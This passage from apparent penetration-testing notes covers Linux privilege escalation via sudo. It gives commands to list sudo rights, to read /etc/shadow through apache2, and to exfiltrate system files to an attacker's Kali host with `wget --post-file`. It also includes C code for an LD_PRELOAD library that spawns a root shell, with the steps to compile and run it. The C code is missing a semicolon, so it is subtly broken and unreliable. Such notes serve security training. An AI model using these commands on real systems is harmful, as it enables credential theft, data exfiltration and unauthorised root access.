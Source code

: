 - **_`sudo -l`_** : This command displays what commands can be run as root on the system

**NOTE:** You can view system files using **_`apache2`_** command: 
**_`sudo apache2 -f /etc/shadow`_**

**NOTE:** You can run **_`wget`_** along with **_`sudo`_** to execute a post request and transfer system files to attacker controlled machine:
**_`sudo wget --post-file=<system file path> <Kali IP:Port>`_**

[Make sure to start a listener on Kali before running the above command in order to receive a callback from the wget command]
***
## Privilege Escalation via `LD_PRELOAD`:

**_LD_PRELOAD_** is a feature which allows us to pre-load a user specific shared library before any other shared libraries are loaded. 

To do this, a **_.c_** file with a library has to be created and then compiled to get an executable binary.

The **_.c_** file must contain the following code:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
	{
		unsetenv("LD_PRELOAD")
		setgid(0);
		setuid(0);
		system("/bin/bash");
	}
```

To compile the **_. c_** file, run 
**_`gcc -fPIC -shared -o <outputfile.so> <library.c> -nostartfiles`_**

To use the newly compiled LD_PRELOAD binary, run 
**_`sudo LD_PRELOAD=<path to outputfile.so> <name of the SUID binary>`_**

**Example:** _**`sudo LD_PRELOAD=/root/shell.so ftp`**_
***

